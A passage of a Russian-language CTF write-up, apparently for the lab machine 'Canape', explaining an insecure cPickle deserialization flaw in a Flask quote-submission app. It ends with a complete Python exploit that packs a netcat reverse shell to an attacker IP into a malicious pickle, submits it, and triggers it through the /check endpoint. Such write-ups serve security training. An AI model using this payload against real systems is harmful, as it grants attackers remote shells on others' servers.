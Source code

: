 Что здесь происходит:
  1. Открытие сервером файла с сохраненной цитатой по id (id это md5-хеш из предыдущего параграфа).
  2. Проверка наличия маркера `p1`, характерного для упакованных (сериализованных) данных.
  3. В случае успешно пройденной проверки начинается самое плохое (ествественно не для нас :smiling_imp:), а именно десериализация непроверенных данных с помощью `cPickle.loads()`. Почему это очень плохо, и делать так ни разу нельзя, можно почитать в сети, статей великое множество. Также, если заинтересовался темой, можешь полистать мою [статью с Хабра](https://habr.com/post/351360 "Искусство эксплойта минных полей: Разбираем CTF-таск про игру в Сапёра из «Мистера Робота» / Хабр"), описывающую таск из «Мистера Робота», в которой центральное место занимает **python-untrusted-deserialization** уязвимость.

Простыми словами эта -->  `cPickle.loads(data)`  <-- строчка кода отправляет ОС на выполнение все, что было упаковано в переменную `data`, т. е. все то, что мы сами указали ранее в качестве "цитаты".

Это обличает несложную схему для атаки:
  * скрафтим вредоносную нагрузку (реверс-шелл);
  * загрузим ее на сайт в виде цитаты персонажа из Симпсонов;
  * попросим сервер вернуть статус модерации (админом, полагаю) цитаты через обращения к методу `/check`.

### Эксплойт
Писать скрипт для эксплойта "вслепую" — довольно неудобная затея, поэтому я устанавливал Flask и CouchDB на локальную машину и тестировал работу вредоноса с бо́льшим комфортом. Предвидя возможные вопросы, отвечу сразу: использую модуль *cPickle* (а не *pickle*) и *python2* (а не *python3*), потому что сервер использует *cPickle* (а не *pickle*) и *python2* (а не *python3*) :smiley:

Должно получиться что-то вроде этого:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Usage: python canape_shell.py

import cPickle, hashlib, requests

LHOST = '10.10.14.14'
LPORT = '31337'
RHOST = '10.10.10.70'
RPORT = '80'

CHAR = 'krusty'


class Payload(object):
	def __init__(self, cmd):
		self.cmd = cmd
	def __reduce__(self):
		import os
		return (os.system, (self.cmd,))


reverse_sh = 'c=%s;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f' % (CHAR, LHOST, LPORT)
evilpickle = cPickle.dumps(Payload(reverse_sh))
sep_index = evilpickle.find(CHAR) + len(CHAR) + 1

data = {'character': evilpickle[:sep_index], 'quote': evilpickle[sep_index:]}
r = requests.post('http://' + RHOST + ':' + RPORT + '/submit', data=data)
print('POST {} {} {}'.format(r.status_code, r.url, data))

data = {'id': hashlib.md5(evilpickle).hexdigest()}
r = requests.post('http://' + RHOST + ':' + RPORT + '/check', data=data)
print('POST {} {} {}'.format(r.status_code, r.url, data))
```
